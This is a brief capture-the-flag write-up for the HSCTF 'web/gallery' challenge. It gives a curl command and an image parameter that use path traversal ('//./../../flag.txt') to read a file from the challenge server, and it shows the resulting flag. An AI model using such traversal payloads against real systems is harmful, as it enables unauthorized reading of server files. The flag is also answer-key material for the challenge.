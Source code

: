 ```yaml
---
created: 2024-06-11T01:36
updated: 2024-08-04T20:28
---
```


## HSCTF - web/gallery

```bash
curl "http://35.192.129.251:8003/image?image=wallpaper-1322673.jpg//./../../flag.txt"
```

Just use image `wallpaper-1322673.jpg//./../../flag.txt`

`flag{1616109079_is_a_cool_number}`
